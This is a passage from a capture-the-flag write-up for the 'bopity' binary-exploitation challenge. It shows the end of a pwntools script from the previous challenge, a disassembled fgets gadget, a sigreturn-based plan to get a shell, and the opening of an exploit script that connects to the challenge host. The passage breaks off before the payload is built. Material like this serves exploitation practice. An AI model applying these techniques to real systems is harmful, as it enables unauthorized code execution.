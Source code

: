 ```python
r.sendlineafter(b'>> ', b'4')
r.sendlineafter(b'Name: ', b'a')
r.sendlineafter(b'Age: ', str(len(payload)).encode())
r.sendlineafter(b'Life background: ', payload)

r.interactive()
r.close()
```

# bopity
The binary is same as [ropity](#ropity).This time we have to launch shell.

As shown in `ropity`, this gadget allows you to control the value of `rax`.

```
  401149:       48 8d 45 f8             lea    rax,[rbp-0x8]
  40114d:       be 00 01 00 00          mov    esi,0x100
  401152:       48 89 c7                mov    rdi,rax
  401155:       e8 e6 fe ff ff          call   401040 <fgets@plt>
```

Also, since we have control over the values ​​on the stack, using `sigreturn` seems easier.

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './vuln'
HOST = 'ropity.chal.imaginaryctf.org'
PORT =   1337

elf = ELF(TARGET)
def start():
    if not args.R:
        print("local")
        return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
    else:
        print("remote")
        return remote(HOST, PORT)

def get_base_address(proc):
    lines = open("/proc/{}/maps".format(proc.pid), 'r').readlines()
    for line in lines :
        if TARGET[2:] in line.split('/')[-1] :
            break
    return int(line.split('-')[0], 16)

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

rbp = 0x0040119b

r = start()
if args.D:
    debug(r, [0x115b])
```